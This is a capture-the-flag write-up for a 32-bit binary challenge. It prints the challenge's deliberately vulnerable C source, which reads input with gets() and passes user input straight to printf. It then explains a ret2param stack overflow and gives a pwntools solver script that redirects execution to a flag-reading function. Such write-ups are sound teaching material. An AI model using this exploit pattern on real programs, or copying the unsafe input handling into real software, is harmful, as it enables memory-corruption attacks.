



# 『queen-anne-revenge』

Because this event was ended so i try to solve local. 

- [chall](./source/chall)

# 『The challenge』

There is code and chall binary too with the protection:



so lets solve it.

# 『Highlight vulnerability and parts of interesting』

So here are are the interesting part of this challenge

```c
#include <stdio.h>
#include <string.h>

void access(int pin)
{
    if (pin == 1234)
    {
        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Arrr! Me treasure map be lost in the sea!\n");
            return;
        }
        char flag[100];
        fgets(flag, sizeof(flag), file);
        printf("Here be yer treasure, matey:\n%s\n", flag);
        fclose(file);
    }
    else
    {
        printf("\nYe son of a biscuit eater! get out of me treasure before I make ye walk the plank!\n");
    }
}

void menu()
{
    char piratename[15];
    int pin;

    printf("QUEEN ANNE'S REVENGE: Brig Treasure\n");
    printf("ye want riches? well then,\n");
    printf("identify yerself, ye scallywag: ");
    gets(piratename);
    printf(piratename);
    printf("\nhand over yer PIN: ");
    gets(&pin);

    if ((strcmp(piratename, "blackbeard") == 0) && pin == 123)
    {
        printf("\nAhoy, Cap'n Blackbeard! yer crews be ready for yer orders!\n");
        access(pin);
    }
    else if ((strcmp(piratename, "pirate") == 0) && pin == 789)
    {
        printf("\nAye, regular lad! Full sail on the brig!\n");
    }
    else
    {
        printf("\nYe Landlubber! Get off me ship and be lost in the sea with them sirens!\n");
    }
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    menu();
}
```

This is ret2param classic on 32 bit file. Explanation for these: [ironstone - ret2param](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions)

It use buffer overflow, gain the memory address of `access` then use pin `1234` to get the flag. Classic of ret2param on 32 bit. The offset:



and it saved on ebp which mean + 4 bit so the total of this offset is 27

# 『Solving Challenge』
> solve by Lylera

After know how many offset we did the buffer, here are the solver

```py
# MY FAVORITE RET2PARAMMMM
from pwn import *

elf = context.binary = ELF('./chall')
p = process()

target = p64(0x080491e6)
offset = 27

payload = flat(
    'A'*offset,
    target,
    #p32(0x0), #this is use if the target is p32(memory-target)
    1234
)

p.sendlineafter('scallywag:', payload)
p.sendlineafter('PIN:', '1234')

p.interactive()
```

Anyway why i use p64 on target? to gain 0x0 bytes automatically. If i use p64(memory-address), it fill 8 bytes which mean 0x0 automatic without i give p32(0x0) again

# 『Flag』

the result:



# 『other』

- [chall](./source)
- [solver.py](./source/solver.py)
- [ret2win with param](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions)